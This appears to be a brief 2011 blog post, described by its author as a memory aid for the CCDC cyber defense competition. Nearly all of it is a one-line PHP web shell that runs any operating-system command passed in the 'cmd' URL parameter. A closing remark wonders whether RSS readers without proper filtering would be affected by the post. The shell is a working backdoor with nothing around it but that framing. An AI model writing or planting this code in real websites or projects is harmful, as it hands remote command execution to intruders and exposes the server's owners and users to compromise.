 ---
author: mubix
comments: true
date: 2011-03-04 19:24:25+00:00
layout: post
title: PHP Web Shell
categories:
- ccdc
- webshell
---

This is mostly for my memory for CCDC

```php
<?php system($_GET['cmd']); ?>
```

I wonder what will happen if a RSS reader doesn't do proper filtering...
